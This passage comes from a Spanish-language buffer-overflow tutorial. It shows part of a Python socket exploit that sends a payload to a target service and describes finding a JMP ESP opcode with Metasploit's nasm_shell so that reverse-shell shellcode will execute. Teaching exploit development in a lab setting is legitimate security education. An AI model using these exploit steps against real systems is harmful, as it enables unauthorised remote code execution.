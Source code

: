 ```python

        # Creando conexión y enviando shellcode
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)

        s.connect((ip_addr, port))

        # Recibiendo banner
        banner = s.recv(1024)
        print(f"\n[+] Recibiendo Banner: \n------\n{banner.decode('utf-8', errors='ignore')}\n------\n")

        # Enviando payload
        s.send(payload)

        # Respuesta de servidor
        response = s.recv(1024)
        print(f"\n[+] Respuesta del servidor: {response.decode('utf-8', errors='ignore')}\n")

        # Cerrando conexión
        s.close()

if __name__ == '__main__':

        exploit()
```
Bien, ya estamos muy cerca de terminar.

<br>

<h3 id="Noveno">Noveno Paso: Busqueda de OpCode para Aplicar un Salto (JMP) al ESP</h3>

Recordemos que es un **OpCode**:

| **Operation Code** |
|:-----------:|
| *El opcode (abreviatura de "operation code" o código de operación) es una parte fundamental de una instrucción en lenguaje máquina. Es el segmento de la instrucción que le dice a la CPU qué operación debe realizar.* |

<br>

Necesitamos buscar un **OpCode** dentro del binario que nos ayude a escribir nuestro **Shellcode** para que se pueda ejecutar la **Reverse Shell**.

Para esto, usamos el **EIP** para que apunte a una dirección de memoria donde se aplique un **OpCode**, para que realice un salto (**JMP**) al **ESP**, que es donde queremos que se aplique el **Shellcode**.

Esto se le conoce como **JMP ESP**.

Una herramienta que podemos ocupar es **nasm_shell** de **Metasploit Framework**.

Podemos invocarla usando su ruta completa `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` y le indicamos que busque él `JMP ESP`:
```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp ESP
00000000  FFE4              jmp esp
```
El **OpCode** se representa así: `\xFF\xE4`.
